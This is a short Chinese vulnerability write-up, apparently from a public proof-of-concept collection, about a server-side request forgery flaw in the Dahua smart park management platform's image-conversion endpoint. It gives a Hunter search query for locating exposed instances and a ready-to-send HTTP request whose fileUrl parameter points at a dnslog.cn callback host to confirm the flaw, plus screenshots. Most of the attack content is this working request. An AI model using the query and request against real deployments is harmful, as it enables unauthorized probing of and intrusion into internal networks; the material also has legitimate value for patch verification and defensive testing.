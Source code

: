 # 大华智慧园区综合管理平台image存在ssrf漏洞

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台image存在ssrf漏洞。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/DOxfwLpWEXM6MdBG/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-825024.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/DOxfwLpWEXM6MdBG/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-393106.png)

# 四、漏洞复现
```plain
GET /ipms/imageConvert/image?fileUrl=http://6nqhen.dnslog.cn/1.jpg HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1703413934936-57322599-bfc5-4c8b-856f-2df6401f202c.png](./img/DOxfwLpWEXM6MdBG/1703413934936-57322599-bfc5-4c8b-856f-2df6401f202c-638099.png)

![1703413952204-847b65eb-ac46-4b8d-b721-9e03d9555c50.png](./img/DOxfwLpWEXM6MdBG/1703413952204-847b65eb-ac46-4b8d-b721-9e03d9555c50-451554.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lz57tt4k7pi5gqem>